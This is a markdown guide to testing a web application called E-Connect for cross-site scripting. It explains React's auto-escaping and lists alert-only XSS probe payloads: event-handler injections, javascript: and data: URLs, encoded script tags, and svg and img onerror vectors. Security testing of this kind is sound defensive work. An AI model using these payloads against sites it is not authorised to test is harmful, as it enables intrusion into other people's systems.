 # Comprehensive XSS Testing Guide for E-Connect

## Current Status
✅ **Good News**: The basic `<script>alert('XSS')</script>` payload is NOT reflecting in the UI, which suggests some level of protection is in place.

## Why Your Basic Payload Didn't Work

1. **React's Built-in Protection**: React automatically escapes HTML content when using JSX expressions like `{reason}`, converting `<` to `&lt;` and `>` to `&gt;`
2. **Input Sanitization**: There might be additional sanitization on frontend or backend
3. **Content Security Policy**: The browser might be blocking inline scripts

## Advanced XSS Testing Techniques

### Phase 1: Confirm React's Auto-Escaping
First, let's verify React is escaping your input:

1. **Submit Test Payload**:
   ```
   <h1>Test HTML</h1>
   ```

2. **Check Browser Developer Tools**:
   - Open F12 → Elements tab
   - Find where your reason text displays
   - If you see `&lt;h1&gt;Test HTML&lt;/h1&gt;` in the DOM, React is escaping it

### Phase 2: Test Different Attack Vectors

#### 2.1 Event Handler Payloads
Try these in the reason field:

```javascript
" onmouseover="alert('XSS')"
' onmouseover='alert("XSS")'
onload="alert('XSS')"
onfocus="alert('XSS')"
onerror="alert('XSS')"
```

#### 2.2 URL-based Payloads
```javascript
javascript:alert('XSS')
data:text/html,<script>alert('XSS')</script>
```

#### 2.3 Encoded Payloads
```javascript
%3Cscript%3Ealert('XSS')%3C/script%3E
&lt;script&gt;alert('XSS')&lt;/script&gt;
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
```
